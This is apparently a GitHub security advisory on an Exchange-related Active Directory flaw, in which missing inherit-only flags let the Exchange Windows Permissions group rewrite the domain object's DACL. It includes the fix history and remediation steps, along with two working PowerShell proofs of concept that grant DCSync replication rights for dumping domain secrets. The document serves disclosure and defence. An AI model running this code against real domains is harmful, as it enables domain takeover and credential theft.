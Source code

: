 ## Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.
It was finally [addressed by Microsoft in April 2019](https://support.microsoft.com/en-us/help/4490059/using-shared-permissions-model-to-run-exchange-server), with the following cumulative updates (`/PrepareAD` and `/PrepareDomain` switches are required during installation):
- Exchange Server 2019 – Cumulative Update 1
- Exchange Server 2016 – Cumulative Update 12
- Exchange Server 2013 – Cumulative Update 22


* Description of the issue

When preparing Exchange 2010/2013/2016 installation in Shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareAD" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is their SDDL representation:

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |



This is how they appear in the GUI (DSA console), which is also missing that information:

![DSA ACE view](DSA_ACE_view.png "DSA ACE view")

The issue can be confirmed in the "Effective Access" tab of the domain object when specifying EWP.

![DSA effective access](DSA_effective_access.png "DSA effective access")


Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is not consistent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=local"
```

Optionally, if PowerView is available, the same can be achieved with its `Add-DomainObjectAcl` cmdlet using the flag `-Rights DCSync`.


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes,Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the InheritOnly missing flags. 
Use with -Restore switch to restore the two previously fixed ACEs to their original, *vulnerable* state. An SDDL backup is made everytime the script is run. 


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


